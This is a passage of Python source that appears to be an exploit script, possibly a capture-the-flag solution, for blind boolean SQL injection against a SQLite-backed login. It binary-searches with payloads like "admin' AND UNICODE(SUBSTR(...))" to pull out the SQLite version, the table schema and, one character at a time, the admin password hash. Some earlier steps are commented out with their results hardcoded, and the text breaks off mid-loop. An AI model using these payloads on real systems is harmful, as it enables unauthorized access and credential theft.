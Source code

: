 ```python
    # )
    print(f"{sqlite_version_length=}")

    sqlite_version = "3.25.3"
    # for i in range(1, sqlite_version_length + 1):
    #     ret = binary_search_leftmost(
    #         ord(" "),
    #         ord("~"),
    #         f"admin' AND UNICODE(SUBSTR(sqlite_version(), {i}, 1)) > {{m}}--",
    #     )
    #     sqlite_version += chr(ret)
    #     print(sqlite_version, end="\r", flush=True)
    print(f"{sqlite_version=}")

    sql_length = 68
    # sql_length = binary_search_leftmost(
    #     0, 200, "admin' AND (SELECT LENGTH(sql) FROM sqlite_master) > {m}--"
    # )
    print(f"{sql_length=}")

    # sql = ""
    # for i in range(1, sql_length + 1):
    #     ret = binary_search_leftmost(
    #         ord(" "),
    #         ord("~"),
    #         f"admin' AND UNICODE(SUBSTR((SELECT sql FROM sqlite_master), {i}, 1)) > {{m}}--",
    #     )
    #     sql += chr(ret)
    #     print(sql, end="\r", flush=True)

    sql = "CREATE TABLE user (id int primary key, username text, password text)"
    print(f"{sql=}")

    record_length = 1
    # record_length = binary_search_leftmost(
    #     1,
    #     100,
    #     "admin' AND (SELECT COUNT(*) FROM user) = {{m}}--",
    # )
    print(f"{record_length=}")

    token = get_token()
    password = ""
    for i in range(1, 33):
        """
        IIF(UNICODE('<c>') >= 97, 97-10, 48):
        0: 0  (=48-48)
        1: 1  (=49-48)
        ...
        9: 9  (=57-48)
        a: 10 (=97-87)
        b: 11 (=98-87)
        ...
        f: 15 (=102-87)
        """
        ret = binary_search_leftmost(
            0,
            15,
            f"admin' AND UNICODE(SUBSTR((SELECT password FROM user WHERE username='admin'), {i}, 1)) - CASE WHEN UNICODE(SUBSTR((SELECT password FROM user WHERE username='admin'), {i}, 1)) >= 97 THEN 87 ELSE 48 END > {{m}}--",
            token,
        )
```